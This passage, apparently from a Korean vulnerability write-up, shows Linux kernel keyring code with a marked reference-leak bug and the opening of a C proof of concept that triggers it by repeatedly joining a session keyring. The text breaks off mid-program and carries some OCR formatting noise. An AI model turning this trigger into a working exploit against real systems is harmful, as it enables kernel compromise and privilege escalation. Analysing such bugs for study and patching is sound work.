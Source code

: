 

``` c++
long join_session_keyring(const char *name)
{
 ...
       new = prepare_creds();
 ...
       keyring = find_keyring_by_name(name, false); //find_keyring_by_name increments  keyring-&gt;usage if a keyring was found
       if (PTR_ERR(keyring) == -ENOKEY) {
               /* not found - try and create a new one */
               keyring = keyring_alloc(
                       name, old->uid, old->gid, old,
                       KEY_POS_ALL | KEY_USR_VIEW | KEY_USR_READ | KEY_USR_LINK,
                       KEY_ALLOC_IN_QUOTA, NULL);
               if (IS_ERR(keyring)) {
                       ret = PTR_ERR(keyring);
                       goto error2;
               }
       } else if (IS_ERR(keyring)) {
               ret = PTR_ERR(keyring);
               goto error2;
       } else if (keyring == new->session_keyring) {
               ret = 0;
               goto error2; //&lt;-- The bug is here, skips key_put.
       }
 
       /* we've got a keyring - now install it */
       ret = install_session_keyring_to_cred(new, keyring);
       if (ret &lt; 0)                goto error2;        commit_creds(new);        mutex_unlock(&amp;key_session_mutex);        ret = keyring-&gt;serial;
       key_put(keyring);
okay:
       return ret;
 
error2:
       mutex_unlock(&amp;key_session_mutex);
error:
       abort_creds(new);
       return ret;
}
```

유저 레벨에서 이 취약점을 트리거하는 것은 매우 간단하다. 아래 코드에서 나타나 있다시피 여기에서 100개의 keyring 레퍼런스가 릭이 된 것을 알 수 있다.

``` c++
/* $ gcc leak.c -o leak -lkeyutils -Wall */
/* $ ./leak */
/* $ cat /proc/keys */
 
#include <stddef.h>
#include <stdio.h>
#include <sys/types.h>
#include <keyutils.h>
 
int main(int argc, const char *argv[])
{
    int i = 0;
    key_serial_t serial;
 
    serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, "leaked-keyring");
    if (serial < 0) {
        perror("keyctl");
        return -1;
    }
```